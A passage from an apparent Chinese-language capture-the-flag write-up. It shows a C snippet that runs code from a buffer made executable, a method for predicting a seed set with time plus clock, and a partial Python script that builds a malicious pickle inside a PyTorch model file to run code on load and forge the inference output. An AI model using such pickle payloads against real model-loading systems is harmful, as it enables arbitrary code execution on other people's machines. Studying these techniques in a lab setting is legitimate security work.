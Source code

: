 ```c
    // mark the memory as executable:
    DWORD dummy;
    VirtualProtect(buffer, sizeof(code), PAGE_EXECUTE_READ, &dummy);

    // interpret the beginning of the (now) executable memory as the entry
    // point of a function taking no arguments and returning a 4-byte int:
    int ret = ((int(*)())buffer)();

    // free the executable memory:
    VirtualFree(buffer, 0, MEM_RELEASE);

    return ret;
}
```

后来知道第一问可以直接 fopen，第二问可以直接 ExecuteProcess，不乐（


## 蒙特卡罗轮盘赌

题目用 srand 将随机种子设定为了 `time(0) + clock()`，即当前的时间戳秒数 + 程序当前所用的tick数。

考虑到时间戳基本是已知，tick数一般也不高，那么打一个表就好了。

题目要求5次内猜对3次，则用前2次来确定当前的 seed，后三次查表。

## 二次元神经网络

调了半天参发现题目是 web 分类的（

pytorch 的模型是一个 zip，其中包含一些 metadata 和一个 pkl 文件。

解析 pkl 文件会调用 `pickle` 模块反序列化，而 `pickle` 加载数据的不安全性是[文档](https://docs.python.org/3/library/pickle.html)里标明了的。
可以知道这道题在加载模型时是能执行代码的。

通过阅读推理部分代码可以看到，模型的推理结果会存到一个 json 里面。
那么只要修改输出结果的逻辑，用真实的图片覆盖调模型的推理结果，就可以拿到 flag。

构造 pickle 文件时搜到了有这么一个[库](https://github.com/CensoredUsername/picklemagic)，可以方便地干坏事。

pkl 生成逻辑如下。

```python
import pickleast
import torch
import glob
import base64
import json

model = torch.load('./checkpoint/model.pt')
image_result = {'gen_imgs_b64': []}

for file in sorted(glob.glob("images/*.png")):
    print(file)
    with open(file, 'rb') as f:
        image = base64.b64encode(f.read())
    image_result['gen_imgs_b64'].append(image.decode())

image_result = json.dumps(image_result)

hook = f'''
import json

image_result = \'{image_result}\'
def dump(obj, file):
    file.write(image_result)
```